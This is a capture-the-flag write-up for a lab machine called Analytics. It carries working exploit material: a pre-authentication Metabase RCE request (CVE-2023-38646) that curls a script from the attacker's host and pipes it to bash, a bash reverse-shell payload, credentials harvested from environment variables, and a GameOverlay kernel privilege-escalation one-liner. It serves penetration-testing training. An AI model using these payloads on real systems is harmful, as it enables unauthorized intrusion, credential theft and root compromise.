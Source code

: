 ## About Analytics
Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a `Metabase` instance, which is vulnerable to Pre-Authentication Remote Code Execution (`[CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)`), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to `GameOverlay`, which is leveraged to obtain root privileges.


```bash
 nmap -sV 10.129.229.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-21 14:08 CDT
Nmap scan report for 10.129.229.224
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

On my next scan I targeted it towards the two open ports I found before:

```bash 
nmap -sCV -p22,80 10.129.229.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-22 07:15 CDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:16 (0:00:06 remaining)
Nmap scan report for 10.129.229.224
Host is up (0.0080s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```a

I performed a vhost scan with gobuster using: 

```bash
gobuster vhost -u http://analytical.htb:80  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://analytical.htb:80
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb:80 Status: 200 [Size: 77883]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================
```

I navigated to the discovered host and notice it was running a version of Metabase 

```bash
curl -s http://data.analytical.htb/api/session/properties | jq '.version'
{
  "date": "2023-06-29",
  "tag": "v0.46.6",
  "branch": "release-x.46.x",
  "hash": "1bb88f5"
}

```
Researched for vulneraibilities with that version number, and I found CVE-2023-38646

> Description
>Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow attackers to execute arbitrary commands on the server, at the server's privilege level. Authentication is not required for exploitation.

```bash
git clone https://github.com/securezeron/CVE-2023-38646
Cloning into 'CVE-2023-38646'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 15 (delta 1), reused 5 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 5.70 KiB | 5.70 MiB/s, done.
Resolving deltas: 100% (1/1), done.

cd CVE-2023-38646

pip install -r requirements.txt
```

```bash
curl -s http://data.analytical.htb/api/session/properties | jq -r '.["setup-token"]'
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```
```created payload
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.126/8888 0>&1' > rev.sh
```
```bash
 python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

```


I captured an request on Burp intruder and then send a post request method to Repeater: 

```bash
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 783

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
                        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {curl,10.10.14.126:8081/rev.sh}|bash')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}

```
This got me a reverse shell as the user metabase

```shell
listening on [any] 8888 ...
connect to [10.10.14.126] from (UNKNOWN) [10.129.229.224] 44056
sh: can't access tty; job control turned off
/ $ whoami
metabase
/ $ 
```
I printed shell's environment variables and found the password An4lytics_ds20223#
```shell
/ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=bedd46381734
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=whoami
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```
I ssh to 

```bash

ssh metalytics@10.129.229.224 

```



```bash
metalytics@analytics:~$ cat user.txt
435a95bcf16c627c8d9e841640cfefa5
```

Enumerated the kernel version to view known issues:

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
metalytics@analytics:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.3 LTS
Release:	22.04
Codename:	jammy
```

Ubuntu 22.04.3 with kernel 6.2.0-25 is potentially vulnerable to several security issues, including those related to OverlayFS, the Linux kernel, and other subsystems. Specifically, the OverlayFS module in Ubuntu has been identified with vulnerabilities related to permission checks, potentially allowing local privilege escalation.



```bash
metalytics@analytics:~$ nano shell.sh
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o
rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import
os;os.setuid(0);os.system("/bin/bash")'



metalytics@analytics:~$ chmod +x shell.sh
metalytics@analytics:~$ ./shell.sh
```

```bash
root@analytics:/root# cat /root/root.txt
fd82c29e675087eb6017ab6b571dd97a
```

